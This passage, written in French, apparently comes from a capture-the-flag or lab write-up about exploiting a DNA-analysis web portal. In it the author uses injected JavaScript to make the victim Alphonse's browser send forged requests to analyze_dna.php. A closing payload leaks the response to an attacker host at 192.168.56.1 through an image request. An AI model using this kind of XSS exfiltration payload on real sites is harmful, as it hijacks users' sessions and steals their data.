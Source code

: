 ```html
</body>                                                                                                                
                                                                                                                       
</html>
```

C'est la page sur laquelle notre injection a lieu (on voit d'ailleurs mon code). Je procéde à la même étape mais pour le fichier JS qui est utilisé.

Le contenu dumpé est le suivant :

```js
function edit_dna(elem) {
    var id = elem.id;
    var val = document.getElementById('dna_string_id_' + id).innerHTML;
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "analyze_dna.php");
    xhr.setRequestHeader('Content-type', 'application/json');
    xhr.onreadystatechange = function() {
        if (xhr.readyState == 4 && xhr.status == 200) {
            document.getElementById('dna_res_id_' + id).innerHTML = xhr.responseText;
        }
    }
    xhr.send(JSON.stringify({"id":id,"val":val}));
}
```

Donc la logique de l'analyse ADN est faite par le script PHP `analyze_dna.php`.

J'ai essayé de communiquer avec lui via `curl` mais impossible d'obtenir le moindre résultat même en passant mon token JWT.

L'authentification qui a lieu sous le dossier `/portal` doit être différente ou n'accepter que le compte de *Alphonse*.

Par conséquent je n'ai pas trop le choix, je vais forger la requête vers le script PHP en passant par son navigateur. J'ai noté que *Alphonse* avait marqué son ADN comme étant *Superb* (le prétentieux). Voyons voir si j'envoie la même chaine ADN mais avec mon identifiant 42 :

```js
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
    if(xmlhttp.readyState == 4){
        var img = document.createElement("img");
        img.src = "http://192.168.56.1/dna" + encodeURI(xmlhttp.responseText);
        document.body.appendChild(img);
    }
}
xmlhttp.open("POST","/dnanalyzer/portal/analyze_dna.php");
xmlhttp.setRequestHeader('Content-type', 'application/json');
xmlhttp.send(JSON.stringify({"id": 42, "val": "GATC"}));
```

Dans le contenu leaké j'obtiens effectivement le status *Superb*. Il faut donc que je continue à utiliser cette session authentifiée.
